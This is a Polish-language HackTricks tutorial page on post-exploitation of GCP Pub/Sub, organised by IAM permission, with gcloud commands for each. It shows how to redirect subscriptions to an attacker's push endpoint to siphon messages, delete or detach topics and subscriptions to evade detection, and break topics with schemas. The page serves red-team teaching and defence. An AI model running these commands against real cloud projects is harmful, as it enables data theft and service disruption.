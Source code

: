 # GCP - Wykorzystanie Pub/Sub po eksploatacji

<details>

<summary><strong>Naucz się hakować AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć swoją **firmę reklamowaną w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**PLANY SUBSKRYPCYJNE**](https://github.com/sponsors/carlospolop)!
* Zdobądź [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**Grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podziel się swoimi sztuczkami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Pub/Sub

Aby uzyskać więcej informacji na temat Pub/Sub, sprawdź następującą stronę:

{% content-ref url="../gcp-services/gcp-pub-sub.md" %}
[gcp-pub-sub.md](../gcp-services/gcp-pub-sub.md)
{% endcontent-ref %}

### `pubsub.topics.publish`

Opublikuj wiadomość w temacie, przydatne do **wysyłania nieoczekiwanych danych** i wywoływania nieoczekiwanych funkcji lub wykorzystywania podatności:
```bash
# Publish a message in a topic
gcloud pubsub topics publish <topic_name> --message "Hello!"
```
### `pubsub.topics.detachSubscription`

Przydatne do zapobiegania otrzymywaniu wiadomości przez subskrypcję, być może w celu uniknięcia wykrycia.
```bash
gcloud pubsub topics detach-subscription <FULL SUBSCRIPTION NAME>
```
### `pubsub.topics.delete`

Przydatne do zapobiegania otrzymywaniu wiadomości przez subskrypcję, być może w celu uniknięcia wykrycia.\
Możliwe jest usunięcie tematu nawet w przypadku dołączonych do niego subskrypcji.
```bash
gcloud pubsub topics delete <TOPIC NAME>
```
### `pubsub.topics.update`

Użyj tego uprawnienia do aktualizacji niektórych ustawień tematu w celu zakłócenia go, takich jak `--clear-schema-settings`, `--message-retention-duration`, `--message-storage-policy-allowed-regions`, `--schema`, `--schema-project`, `--topic-encryption-key`...

### `pubsub.topics.setIamPolicy`

Daj sobie uprawnienie do wykonania dowolnego z poprzednich ataków.

### **`pubsub.subscriptions.create,`**`pubsub.topics.attachSubscription` , (`pubsub.subscriptions.consume`)

Pobierz wszystkie wiadomości na serwerze sieciowym:

{% code overflow="wrap" %}
```bash
# Crete push subscription and recieve all the messages instantly in your web server
gcloud pubsub subscriptions create <subscription name> --topic <topic name> --push-endpoint https://<URL to push to>
```
{% endcode %}

Utwórz subskrypcję i użyj jej do **pobierania wiadomości**:
```bash
# This will retrive a non ACKed message (and won't ACK it)
gcloud pubsub subscriptions create <subscription name> --topic <topic_name>

# You also need pubsub.subscriptions.consume for this
gcloud pubsub subscriptions pull <FULL SUBSCRIPTION NAME>
## This command will wait for a message to be posted
```
### `pubsub.subscriptions.delete`

**Usuń subskrypcję**, co może być przydatne do zakłócenia systemu przetwarzania logów lub czegoś podobnego:
```bash
gcloud pubsub subscriptions delete <FULL SUBSCRIPTION NAME>
```
### `pubsub.subscriptions.update`

Użyj tego uprawnienia do aktualizacji ustawień, aby wiadomości były przechowywane w miejscu, do którego masz dostęp (URL, tabela Big Query, kubeł) lub po prostu je zakłócić.

{% code overflow="wrap" %}
```bash
gcloud pubsub subscriptions update --push-endpoint <your URL> <subscription-name>
```
{% endcode %}

### `pubsub.subscriptions.setIamPolicy`

Nadaj sobie uprawnienia niezbędne do wykonania dowolnego z wcześniej skomentowanych ataków.

### `pubsub.schemas.attach`, `pubsub.topics.update`,(`pubsub.schemas.create`)

Zaatakuj schemat do tematu, aby wiadomości go nie spełniały, a tym samym temat zostanie zakłócony.\
Jeśli nie ma żadnych schematów, możesz potrzebować utworzyć jeden.

{% code title="schema.json" %}
```json
{
"namespace": "com.example",
"type": "record",
"name": "Person",
"fields": [
{
"name": "name",
"type": "string"
},
{
"name": "age",
"type": "int"
}
]
}
```
{% endcode %}
```bash
# Attach new schema
gcloud pubsub topics update projects/<project-name>/topics/<topic-id> \
--schema=projects/<project-name>/schemas/<topic-id> \
--message-encoding=json
```
### `pubsub.schemas.delete`

To może wyglądać na usuwanie schematu, co pozwoli wysyłać wiadomości, które nie spełniają schematu. Jednak po usunięciu schematu żadna wiadomość faktycznie nie trafi do tematu. Więc jest to **BEZUŻYTECZNE**:
```bash
gcloud pubsub schemas delete <SCHEMA NAME>
```
### `pubsub.schemas.setIamPolicy`

Nadaj sobie uprawnienia potrzebne do wykonania dowolnego z wcześniej skomentowanych ataków.

### `pubsub.snapshots.create`, `pubsub.snapshots.seek`

To spowoduje utworzenie migawki wszystkich niepotwierdzonych wiadomości i ponowne umieszczenie ich w subskrypcji. Niezbyt przydatne dla atakującego, ale oto:
```bash
gcloud pubsub snapshots create YOUR_SNAPSHOT_NAME \
--subscription=YOUR_SUBSCRIPTION_NAME
gcloud pubsub subscriptions seek YOUR_SUBSCRIPTION_NAME \
--snapshot=YOUR_SNAPSHOT_NAME
```
<details>

<summary><strong>Naucz się hakować AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć swoją **firmę reklamowaną w HackTricks** lub **pobrać HackTricks w formacie PDF** sprawdź [**PLANY SUBSKRYPCYJNE**](https://github.com/sponsors/carlospolop)!
* Kup [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podziel się swoimi sztuczkami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów na GitHubie.

</details>
